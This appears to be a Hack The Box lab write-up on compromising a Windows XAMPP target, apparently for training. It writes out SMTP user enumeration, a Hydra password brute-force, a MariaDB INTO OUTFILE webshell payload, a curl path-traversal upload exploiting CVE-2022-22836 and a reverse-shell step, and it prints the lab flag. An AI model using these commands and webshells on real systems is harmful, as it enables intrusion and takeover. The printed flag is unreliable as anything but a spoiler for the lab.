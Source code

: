 # Attacking Common Services - Easy

**Target:** 10.129.84.111 (inlanefreight.htb)
**Objective:** Assess target and obtain the contents of `flag.txt`.

---

## Service Enumeration

**Nmap Findings**

- FTP (CoreFTP)
- HTTP / HTTPS (Apache 2.4.53, PHP 7.4.29)
- SMTP (hMailServer)
- MySQL (MariaDB 10.4.x)
- RDP

**SMTP Enumeration**

```bash
smtp-user-enum.pl -M RCPT -U users.list -D inlanefreight.htb -t 10.129.84.111
```

- Valid user discovered: `fiona@inlanefreight.htb`

**Password Discovery**

```bash
hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -I -t 64 10.129.84.111 smtp
```

- Password for `fiona`: `987654321`

------

## Initial Access

- FTP login as `fiona:987654321`.
- FTP allowed file uploads.
- Web vhost `inlanefreight.htb` mapped to `C:\xampp\htdocs\`.

------

## Privilege Escalation / Execution

**Method 1: MariaDB File Write**

```sql
SELECT "<?php echo shell_exec('powershell -e');?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';
```

- Created a PHP webshell in the Apache webroot.
- Invoked PowerShell reverse shell payload → interactive session as **Administrator**.

**Method 2 (Alternate): FTP Upload Abuse (CVE-2022-22836)**

```bash
curl -k -X PUT -H "Host: inlanefreight.htb" --basic -u fiona:987654321 \
  --data-binary '<?php system($_GET["cmd"]); ?>' \
  --path-as-is https://10.129.178.249/../../../../xampp/htdocs/shell.php
```

------

## Post-Exploitation

**Artifacts**

- Webshell: `C:/xampp/htdocs/shell.php`
- Retrieved flag:

```
C:\Users\Administrator\Desktop\flag.txt
HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}
```

**Tools Utilized**

- Hydra
- smtp-user-enum
- curl
- MariaDB SELECT ... INTO OUTFILE

------

## Key Takeaways

- Weak credentials (`987654321`) combined with service exposure enabled compromise.
- Misconfigured MariaDB (file writes) was a direct path to code execution.
- Disabling FTP uploads and DB file writes would close primary attack vectors.